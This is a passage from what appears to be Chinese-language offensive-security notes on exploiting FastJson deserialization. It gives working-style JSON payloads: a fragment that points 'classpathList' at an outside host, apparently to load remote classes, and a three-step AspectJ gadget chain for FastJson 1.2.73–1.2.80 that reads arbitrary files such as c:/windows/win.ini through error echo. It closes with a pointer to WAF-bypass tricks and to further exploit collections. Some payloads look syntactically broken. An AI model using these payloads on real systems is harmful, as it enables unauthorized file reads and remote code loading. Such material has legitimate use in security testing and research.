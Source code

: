 ```json
        "classpathList":"http://10.30.2.83:9999/"
    }
}
```
![image.png](https://cdn.nlark.com/yuque/0/2023/png/26045928/1692069817377-e8b47684-0fcd-4ad0-b5f8-ba69fab66537.png#averageHue=%23fbfbfb&clientId=ua12c8ebe-585b-4&from=paste&height=237&id=u8cc88273&originHeight=296&originWidth=1264&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=60834&status=done&style=none&taskId=u2eb1d585-7dcf-491a-a175-c4766239870&title=&width=1011.2)

## Aspectj - 读文件
FastJson>=1.2.73 && <=1.2.80,利用java.lang.Character报错，回显读取任意文件
```xml
<dependency>
    <groupId>org.aspectj</groupId>
    <artifactId>aspectjtools</artifactId>
    <version>1.9.5</version>
</dependency>
```
 此利用方式同上，仅在web端可行，因为需要用到缓存机制，依次发送三段payload。 
```json
// poc1-1
{
    "@type":"java.lang.Exception",
    "@type":"org.aspectj.org.eclipse.jdt.internal.compiler.lookup.SourceTypeCollisionException"
}

poc1-2
{
    "@type":"java.lang.Class",
    "val":{
        "@type":"java.lang.String"{
        "@type":"java.util.Locale",
        "val":{
            "@type":"com.alibaba.fastjson.JSONObject",
             {
                "@type":"java.lang.String"
                "@type":"org.aspectj.org.eclipse.jdt.internal.compiler.lookup.SourceTypeCollisionException",
                "newAnnotationProcessorUnits":[{}]
            }
        }
    }

poc1-3
{
    "@type":"java.lang.Character"
    {
        "c":{
            "@type":"org.aspectj.org.eclipse.jdt.internal.compiler.env.ICompilationUnit",
            "@type":"org.aspectj.org.eclipse.jdt.internal.core.BasicCompilationUnit",
            "fileName":"c:/windows/win.ini"
    }
}

```
其他链请看[su18的总结](https://github.com/su18/hack-fastjson-1.2.80)。
# WAF绕过
可看这篇：[https://y4tacker.github.io/2022/03/30/year/2022/3/%E6%B5%85%E8%B0%88Fastjson%E7%BB%95waf/#%E7%BC%96%E7%A0%81%E7%BB%95%E8%BF%87-Unicode-Hex](https://y4tacker.github.io/2022/03/30/year/2022/3/%E6%B5%85%E8%B0%88Fastjson%E7%BB%95waf/#%E7%BC%96%E7%A0%81%E7%BB%95%E8%BF%87-Unicode-Hex)
## FastJson默认会对Unicode和Hex解码
```json
```